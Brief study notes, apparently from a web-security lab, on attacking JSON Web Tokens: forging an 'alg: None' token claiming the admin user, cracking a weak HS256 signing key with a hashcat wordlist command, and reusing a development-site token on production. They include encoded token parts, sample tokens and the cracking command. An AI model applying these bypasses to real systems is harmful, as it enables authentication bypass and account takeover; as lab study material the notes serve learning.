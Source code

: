 ____

https://jwt.io/

# Bypassing signature checks

![[Pasted image 20241216131947.png]]
```json
{"typ":"JWT","alg":"None"}
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0=

```json
{"username":"admin"}
```
eyJ1c2VybmFtZSI6ImFkbWluIn0=

the same
ODnAXt9IXHDcP17XNR1yqHedzpifSsIejjDujNyiyRI

![[Pasted image 20241216132847.png]]

# Crackable key

```jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.TXSbnEmdp-kgdKfOflVsbifEd8AYZn0JEnAIBqG0QQY
```

```bash
hashcat -m 16500 -a 0 jwt.txt /usr/share/seclists/rockyou.txt
```

![[Pasted image 20241216133932.png]]
# Reuse of JWT

![[Pasted image 20241216134846.png]]

## Development website

Register on development, 

```jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo1fQ.02sSqhnYgMKCUlETC8VyLyrNOiY-oSYn4kmFvE0aylA
```

## Production website

Use the same JWT of development website, 

![[Pasted image 20241216134956.png]]

